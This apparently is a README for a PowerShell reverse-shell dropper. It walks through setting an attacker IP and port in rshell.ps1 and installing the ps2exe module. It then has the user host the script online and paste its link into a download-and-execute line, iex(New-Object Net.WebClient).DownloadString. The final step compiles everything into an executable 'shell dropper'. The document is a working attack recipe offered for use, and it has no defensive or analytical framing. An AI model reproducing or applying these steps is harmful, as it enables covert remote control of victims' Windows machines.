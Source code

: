 ### 1. Modify  rshell.ps1
set your IP address and listen port:
'''
$LHOST = "XXX.XXX.XXX.XXX"; 
$LPORT = XXXXX;
'''

### 2. Install ps2exe module
'''
Install-Module ps2exe
'''

### 3. Upload rshell.ps1 file as plain text somewhere and paste link to it into Dropper.ps1:
>iex(New-Object Net.WebClient).DownloadString('YOUR LINK HERE');

### 4. Compile Dropper.ps1 with >Win-Ps2exe

### 5. Now you have your own exe shell dropper.